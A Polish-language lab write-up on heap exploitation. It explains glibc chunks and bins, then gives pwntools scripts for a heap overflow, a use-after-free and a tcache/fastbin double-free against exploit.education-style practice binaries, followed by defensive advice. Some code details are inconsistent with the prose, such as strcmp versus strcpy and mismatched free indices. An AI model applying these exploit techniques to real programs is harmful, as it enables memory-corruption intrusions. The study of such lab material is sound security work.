# HEAP

### 1. Czym jest sterta i jak działa?

Sterta to jeden z obszarów pamięci przydzialony każdemu programowi. Sterta, w przeciwieństwie do stosu, jest alokowana dynamicznie. 
Program za pomocą specjalnych funkcji może zażądać oraz zwolnić pamieć z sterty, kiedy tego potrzebuje. 

Sterta jest pamięcią globalną - można uzyskać do niej dostęp i ją zmodyfikować z dowolnego miejsca w programie. W tym celu właśnie, sterta korzysta z `pointerów`.
Porównując to z odkładaniem zmiennych na stosie, widzimy niewielki spadek wydajności.

Funkcje dla programisty przeznaczone do komunikacji ze stertą dla programisty to:
 * free - służy do zwolnienia pamięci,
 * `malloc`, `realloc`, `calloc` - służą do alokowania pamięci.

Funkcje te wykorzystują pod spodem syscalle takie jak:
* `mmap`
* `munmap`
* `sbrk`

Struktura jednego chunku sterty wygląda tak:
```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```

Sterta składa się z kilku rodzajów binów, które przetrzymują wolne chunki - są to listy lub tablice.

Sterta zawiera dużo sprawdzeń bezpieczeństwa, ale nadal jest podatna na kilka ataków mogących wpłynąć na wykonanie programu. Zła praktyka programistyczna prowadzi tu do większego ryzyka exploitacji.

### 2. Exploity

Aby zapoznać się z podstawowymi exploitami typu heap overflow, posługuję się podatnymi aplikacjami z [https://exploit.education/](https://exploit.education/).

#### 2.1 -heap overflow

Zacznę od prostego exploita heap overflow - heap zero.

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to heap zero, brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

W tym przypadku mamy dwie struktury - `data` oraz `fp`. Ze struktury data da się nadpisać strukturę `fp` przez użycie funkcji `strcmp`.

Podaję do programu ciąg znaków. 

Staram się odnaleźć go na stercie.



Widzę na stercie dużo liter A. Mając dość dużo szczęścia udało mi się nadpisać idealną ilość bajtów. Na rysunku zaznaczony jest chunk data. Potem znajdują się headery chunku fp.

Wystarczy nadpisać 16 bajtów więcej, a następnie podać adres funkcji do której chcę skoczyć.



Funkcja winner jest pod adresem `0x80491b2`.

Exploit wygląda następująco:

```python
from pwn import *


str = b'a'*80+b'\xb2\x91\x04\x08'

p = process(["./vuln.o",str])

p.interactive()


```

Exploit działa.



#### 2.2 use-after-free

Przechodząc do trudniejszego zadania zajmę się - `heap two` z tej samej strony - to prosty exploit typu use-after-free.

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
char line[128];

printf("%s\n", BANNER);

while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);
    
    if (fgets(line, sizeof(line), stdin) == NULL) break;
    
    if (strncmp(line, "auth ", 5) == 0) {
        auth = malloc(sizeof(struct auth));
        memset(auth, 0, sizeof(struct auth));
        if (strlen(line + 5) < 31) {
            strcpy(auth->name, line + 5);
        }
    }
    if (strncmp(line, "reset", 5) == 0) {
        free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
        service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
        if (auth && auth->auth) {
            printf("you have logged in already!\n");
        } else {
            printf("please enter your password\n");
        }
    }
}

```

Patrząc na kod widzę, że muszę ustawić zmienną `auth` z struktury na wartość inną niż 0. Nie występuje tu buffer overflow - wszystkie długości stringów też są sprawdzane. 

Pozornie kod jest poprawny, ale błąd, który będziemy exploitować leży w tej opcji:

```c
if (strncmp(line, "reset", 5) == 0) {
free(auth);
}
```
Po zwolnieniu auth, pointer auth nadal wskazuje na tę samą lokalizację w pamięci. Opcja login nadal sprawdzi to samo miejsce w pamięci, pomimo zwolnienia go (use-after-free). 

W tym miejscu warto by użyć funkcji `service`, która używa `strdup`, który pod spodem wywołuje dobrze znaną funkcję `malloc`. To jest nasz sposób na zapis zmiennej. Po zwolnieniu `auth` chunk ten trafi na free list, z którego będzie pobrany jako następny alokowany chunk.

Planem exploitacji jest:
 * utworzyć `auth`
 * zwolnić `auth`
 * utworzyć `service` o dużej długości - rozmiar bloków musi być podobny, aby trafiły w to samo miejsce.

Tworzę auth.





Zwalniam auth.



Widzę, że dane pozostają w pamięci, zmienia się header.

Wprowadzam service o długości 33 bajty.



Widzę, że chunk został alokowany pod tym samym adresem, a pointer auth nadal wskazuje na ten adres. 

Przy próbie zalogowania widzimy sukces.



#### 2.3 double-free

Następnym omówionym exploitem będzie double-free. Strategia ta polega na podwójnym uwolnieniu jednego chunka pamięci. W tym przypadku chunk do którego możemy pisać jest uwalniany.
Kiedy jest on uwolniony pozwala nadpisać pointer do następnego free chunka, tym samym dając `arbitrary write`.

Jedynym utrudnieniem jest nowa wersja biblioteki, która zapewnia mechanizm cache dla każdego wątku.

Kod aplikacji:

```c

#include <stdio.h>
#include <stdlib.h>


char important_data[0x10] = "\x30\0\0\0\0\0\0\0";
char admin[0x10] = "useruser\0";


char *users[32];
int userCount = 0;

void create_user() {
    char *name = malloc(0x20);
    users[userCount] = name;

    printf("%s", "Name: ");
    read(0, name, 0x20);

    printf("User Index: %d\nName: %s\nLocation: %p\n", userCount, users[userCount], users[userCount]);
    userCount++;
}

void delete_user() {
    printf("Index: ");

    char input[2];
    read(0, input, sizeof(input));
    int choice = atoi(input);


    char *name = users[choice];
    printf("User %d:\n\tName: %s\n", choice, name, name);

    // Check user actually exists before freeing
    if(choice < 0 || choice >= userCount) {
        puts("Invalid Index!");
        return;
    }
    else {
        free(name);
        puts("User freed!");
    }
}

void complete_level() {
    if(!strcmp(admin, "admin\n")) {
        puts("Level Complete!");
        return;
    }
}

void main_loop() {
    boolean flag = true;
    while(flag) {


        printf(">> ");
	fflush(stdout);
        char input[2];
        read(0, input, sizeof(input));
        int choice = atoi(input);

        switch (choice)
        {
            case 1:
                create_user();
                break;
            case 2:
                delete_user();
                break;
            case 3:
                complete_level();
		break;
            case 4:
                flag = 0;
            default:
                break;
        }
    }
}

int main() {
    main_loop();
    return 0;
}
```

Moją strategią jest wypełnić `tcache`, a następnie wykonać double-free.
Definiuję dwie funkcje, które mi w tym pomogą.
```python
def malloc(name):
    p.sendlineafter('>> ','1 '+name)

def free(id):
    p.sendlineafter('>> ', '2 '+str(id))
```


Alokuje 9 userów, a następnie zwalniam pamięć powiązaną z nimi w kolejności rosnącej.
```
tcache
p1->p2->p3->p4->p5->p6->p7
fastbin
p8->p9
```
```python
for i in range(8):
    malloc('a') #tcache

malloc('a') #p8
malloc('a') #p9

for i in range(9):
    free(i-1)

free(8)
free(9)

```


Teraz check pozwoli na ponowne zwolnienie p8.

```
tcache
p1->p2->p3->p4->p5->p6->p7
fastbin
p8->p9->p8
```
W tym momencie wykonałem atak typu double-free i mogą zapisać dowolną treść w dowolne miejsce.
Oczywiście w tym przypadku moim celem jest zmienna `admin`. Wyszukuję jej adres w gdb.

Teraz, aby atak się udało muszę opróźnić tcache - alokuje znowu 7 userów.
```
tcache
empty
fastbin
p8->p9->p8
```

```python
for i in range(8):
    malloc('a')
```
W tym momencie alokuje usera o nazwie będącej adresem zmiennej `admin` - `0x0804c048`. Adres ten zapisywany jest w sekcji z danymi chunka `p8`.

Teraz alokuje dwóch losowych userów, aby wyczyścić fastbin.

```python
malloc('\x48\xc0\x04\x08')
malloc('1')
malloc('1')
```
W momencie wpisania adresu:



W chunku p8 znajdują się adresy wynikające ze struktury free chunka. Jest on w fastbinie i jednocześnie podmieniłem adres.

Po zalokowaniu dwóch losowych chunków.



Następny do alokowania to adres zmiennej `admin`.

Z uwagi na to, że pointer `fd` wskazujący na następnego wolnego chunka wskazuje na podstawiony adres następny zalokowany user pójdzie pod adres zmiennej `admin`.

```python
malloc('admin')
```
W tym momencie zmienna zostaje nadpisana i kończy się exploit.



Największym problemem tego ataku jest to, że adres pod który piszemy musi mieć metadane, które zostaną uznane za chunk - stąd też:

```c
char important_data[0x10] = "\x30\\0\0\0\0\0\0\0";
```

#### 3. Wnioski

Sterta jest dość skomplikowanym tworem i podlega ciągłym zmianom. Dziury w implementacji znajdowane są po dziś dzień i na bieżąco łatane.

Największym problemem sterty są programiści, nie wiedzący jak korzystać z pamięci i nie świadomi zagrożeń związanych ze złą praktyką programistyczną.

Aby zapobiec exploitacji sterty należy:

* używać tyle pamięci ile zalokowaliśmy,
* zwalniać pamięć tylko raz i po każdym użyciu,
* nigdy nie odwoływać się do uwolnionej pamięci,
* zawsze sprawdzać wartość zwracaną przez malloc.

Dobrą praktyką też jest używanie `non-exec stacku`, który ustawia stertę jako niewykonywalną. Częstą praktyką jest skok do `libc`, więc ASLR też pomaga w zapobieganiu eskalacji ataków na stertę. W przypadku kiedy to możliwe full RELRO też przeciwdziała nadpisaniu wpisów przez błędy na stercie.

#### 4. Inne ataki

Atak przed którym nie ma należytej obrony to po prostu podmiana biblioteki na hoście. W przypadku skompilowania własnej wersji biblioteki standardowej można podmienić zmienną LD_PRELOAD. W tym przypadku programista myślący, że używa `printf()` wykonuje złośliwy kod spreparowany przez atakującego. 
Złośliwy kod może dodatkowo imitować funkcję, żeby atak nie był wykrywalny. Moją propozycją obrony jest sprawdzanie sumy kontrolnej biblioteki.

Ataki sprzętowe to też ataki, którym nie jest poświęcana odpowiednia uwaga. Wszelakie ataki ingerujące w sprzęt takie jak analiza czasowa, czy analiza pola elektromagnetycznego nie są znane szerszemu gronu i obrona przed nimi nie jest prosta, ale jak najbardziej możliwa.

Ataki na stertę w dużej mierze pozostają niezałatane, ale wymagają niedbałego używania funkcji. Biblioteka standardowa stara się wykonywać checki, które temu zapobiegają. Obroną jest po prostu dobra praktyka programistyczna.


